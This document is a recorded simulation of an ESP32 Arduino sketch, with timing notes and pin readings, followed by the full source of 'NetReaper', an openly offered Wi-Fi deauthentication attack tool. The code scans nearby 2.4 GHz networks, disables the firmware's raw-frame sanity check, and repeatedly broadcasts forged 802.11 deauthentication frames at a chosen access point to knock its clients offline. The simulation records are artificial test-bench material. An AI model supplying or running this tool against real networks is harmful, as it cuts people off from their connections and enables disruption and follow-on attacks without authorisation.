
Recording of a sketch running on a simulated ESP32. Shown: output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band). A WiFi scan finds three made-up networks; what the sketch prints to the serial monitor is not drawn.

Above: at 1.7 s.
1.8 s: "scan\n" received over Serial
4.8 s: "deauth ,45\n" received over Serial
At 5.8 s:

6.3 s: "deauth \n" received over Serial
Timing chart, 0 to 9.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.8 s, every drawn part: stays the same
- after the input at 4.8 s, GPIO 2: LOW → HIGH at once
- after the input at 6.3 s, every drawn part: stays the same

The sketch:

NetReaper.ino
```cpp
/*
 * NetReaper
 * A tool that deauth 2.4GHz Wi-Fi networks via ESP32 on serial console.
 * Author - WireBits
 */

#include <WiFi.h>
#include <stdint.h>
#include "esp_wifi.h"

struct WiFiNetwork {
  String ssid;
  uint8_t bssid[6];
  int channel;
  int rssi;
};

const uint8_t deauthPacket[26] = {
  0xc0, 0x00, 0x3a, 0x01,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x07, 0x00
};

int networkCount = 0;
int targetChannel = 1;
bool scanning = false;
uint8_t targetBSSID[6];
bool scanExecuted = false;
bool deauthRunning = false;
bool deauthExecuted = false;
WiFiNetwork scannedNetworks[20];

extern "C" int ieee80211_raw_frame_sanity_check(int32_t arg, int32_t arg2, int32_t arg3) {
    return 0;
}

void startWiFiScan() {
  Serial.println("[*] Scanning for networks...");
  scanning = true;
  scanExecuted = true;
  WiFi.scanNetworks(true);
}

void showScannedNetworks() {
  networkCount = WiFi.scanComplete();
  if (networkCount == 0) {
    Serial.println("[!] No networks found!");
    return;
  }
  Serial.println("\n[*] Scanned WiFi Networks:");
  Serial.println("-------------------------------------------------");
  for (int i = 0; i < networkCount; i++) {
    scannedNetworks[i].ssid = WiFi.SSID(i);
    memcpy(scannedNetworks[i].bssid, WiFi.BSSID(i), 6);
    scannedNetworks[i].channel = WiFi.channel(i);
    scannedNetworks[i].rssi = WiFi.RSSI(i);
    Serial.printf("[%02d] - SSID    : %s\n", i, scannedNetworks[i].ssid.c_str());
    Serial.printf("       BSSID   : %02X:%02X:%02X:%02X:%02X:%02X\n",
                      scannedNetworks[i].bssid[0], scannedNetworks[i].bssid[1],
                      scannedNetworks[i].bssid[2], scannedNetworks[i].bssid[3],
                      scannedNetworks[i].bssid[4], scannedNetworks[i].bssid[5]);
    Serial.printf("       Channel : %d\n", scannedNetworks[i].channel);
    Serial.printf("       RSSI    : %d dBm\n", scannedNetworks[i].rssi);
    Serial.println("-------------------------------------------------");
  }
}

void initDeauth() {
  deauthRunning = false;
  deauthExecuted = false;
}

void startDeauth(int index) {
  if (index < 0 || index >= networkCount) {
    Serial.println("[!] Invalid index!");
    return;
  }
  memcpy(targetBSSID, scannedNetworks[index].bssid, 6);
  targetChannel = scannedNetworks[index].channel;
  esp_wifi_set_channel(targetChannel, WIFI_SECOND_CHAN_NONE);
  Serial.printf("[*] Deauth Attack Started on %s (Channel: %d)\n", scannedNetworks[index].ssid.c_str(), targetChannel);
  digitalWrite(2, HIGH);
  esp_wifi_set_promiscuous(true);
  deauthRunning = true;
  deauthExecuted = true;
}

void sendDeauth() {
  uint8_t packet[26];
  memcpy(packet, deauthPacket, 26);
  memcpy(&packet[10], targetBSSID, 6);
  memcpy(&packet[16], targetBSSID, 6);
  esp_wifi_80211_tx(WIFI_IF_STA, packet, sizeof(packet), false);
}

void stopDeauth() {
  deauthRunning = false;
  WiFi.mode(WIFI_STA);
  digitalWrite(2, LOW);
  Serial.println("[*] Deauth Attack Stopped!");
}

void showHelp() {
  Serial.println("\nAvailable Commands:");
  Serial.println("  scan        - Scan for nearby WiFi networks");
  Serial.println("  deauth X    - Start deauth attack on network X (X = Index Number)");
  Serial.println("  deauth off  - Stop deauth attack");
  Serial.println("  help        - Show this help message");
}

void handleSerial() {
  if (Serial.available()) {
    String command = Serial.readStringUntil('\n');
    command.trim();
    if (command.equalsIgnoreCase("scan")) {
      startWiFiScan();
    }
    else if (command.startsWith("deauth ")) {
      String arg = command.substring(7);
      arg.trim();
      if (arg.equalsIgnoreCase("off")) {
        if (!deauthExecuted) {
          Serial.println("[!] Deauth Network First!");
        } else {
          stopDeauth();
        }
      } else {
        int index = arg.toInt();
        startDeauth(index);
      }
    }
    else if (command.equalsIgnoreCase("help")) {
      showHelp();
    }
    else {
      Serial.println("[!] Invalid command. Type 'help' for available commands!");
    }
  }
}

void setup() {
  Serial.begin(115200);
  pinMode(2, OUTPUT);
  WiFi.mode(WIFI_STA);
  initDeauth();
  delay(500);
  Serial.print("+┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈+\n");
  Serial.print("|     ╔╗╔╔═╗╔╦╗╦═╗╔═╗╔═╗╔═╗╔═╗╦═╗    |\n");
  Serial.print("|     ║║║║╣  ║ ╠╦╝║╣ ╠═╣╠═╝║╣ ╠╦╝    |\n");
  Serial.print("|     ╝╚╝╚═╝ ╩ ╩╚═╚═╝╩ ╩╩  ╚═╝╩╚═    |\n");
  Serial.print("+┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈+\n");
  Serial.print("| 2.4GHz ESP32 Deauthentication Tool |\n");
  Serial.print("+┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈+\n");
  Serial.print("|         Author - WireBits          |\n");
  Serial.print("+┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈+\n");
  Serial.print("| Type 'help' for available commands |\n");
  Serial.print("+┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈┈+\n");
}

void loop() {
  handleSerial();
  if (scanning) {
    int found = WiFi.scanComplete();
    if (found >= 0) {
      showScannedNetworks();
      scanning = false;
      Serial.println("[*] Scanning Completed!");
    }
  }
  if (deauthRunning) {
    sendDeauth();
    delay(100);
  }
}
```
